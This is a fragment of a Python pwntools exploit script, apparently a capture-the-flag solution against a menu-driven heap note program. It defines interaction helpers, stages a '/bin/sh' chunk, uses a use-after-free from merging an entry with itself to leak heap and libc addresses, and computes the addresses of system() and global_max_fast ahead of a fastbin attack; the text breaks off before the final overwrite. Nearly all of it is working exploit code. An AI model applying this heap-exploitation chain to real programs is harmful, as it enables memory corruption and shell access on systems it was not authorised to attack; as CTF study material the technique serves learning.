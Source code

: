 ```python
def update(index, nlen, data):
  p.recvuntil("Your choice: ")
  p.sendline('2')
  p.recvuntil("Entry ID: ")
  p.sendline(str(index))
  p.recvuntil("Length of entry: ")
  p.sendline(str(nlen))
  p.recvuntil("Enter your data: ")
  p.send(data)

def merge(index1, index2):
  p.recvuntil("Your choice: ")
  p.sendline('3')
  p.recvuntil("Merge from Entry ID: ")
  p.sendline(str(index1))
  p.recvuntil("Merge to Entry ID: ")
  p.sendline(str(index2))

def delete(index):
  p.recvuntil("Your choice: ")
  p.sendline('4')
  p.recvuntil("Entry ID: ")
  p.sendline(str(index))

def view(index):
  p.recvuntil("Your choice: ")
  p.sendline('5')
  p.recvuntil("Entry ID: ")
  p.sendline(str(index))
  p.recvline()
  addr1 = u64( p.recv(8) )
  addr2 = u64( p.recv(8) )
  return (addr1, addr2)


insert(8) #0   at leat 8, because the view function outputs the addresses
insert(8, '/bin/sh\x00') #0, 1
insert(8) #0, 1, 2
insert(8) #0, 1, 2, 3 in case consolidating with top chunk
insert(8) #0, 1, 2, 3, 4  becuse of merge(3, 3)
insert(0x90) #0, 1, 2, 3, 4, 5  #prepare for later fastbin unlink attack. checking the size to malloc the fastbin whether is 0x90
delete(0) #1, 2, 3, 4, 5

merge(2, 2) #0, 1, 3, 4, 5

#raw_input("go")

heap_addr, unsorted_bin_addr = view(0)   #use afrer free to read the content of the chunk
print "\n[*]unsorted_bin_addr: " + hex(unsorted_bin_addr)
print "[*]heap_addr: " + hex(heap_addr)

#raw_input("go?")
libc_base_addr = unsorted_bin_addr - 0x3BE7B8 #find main_arena's address in free(libc.so)(__libc_free)
print "[*]libc_base_addr: " + hex(libc_base_addr)

#system's address
system_addr = libc_base_addr + 0x46590
print "[*]system_addr: " + hex(system_addr)

#global_max_fast's address
global_max_fast_addr = libc_base_addr + 0x3C0B40  #find in free-->_int_free
```
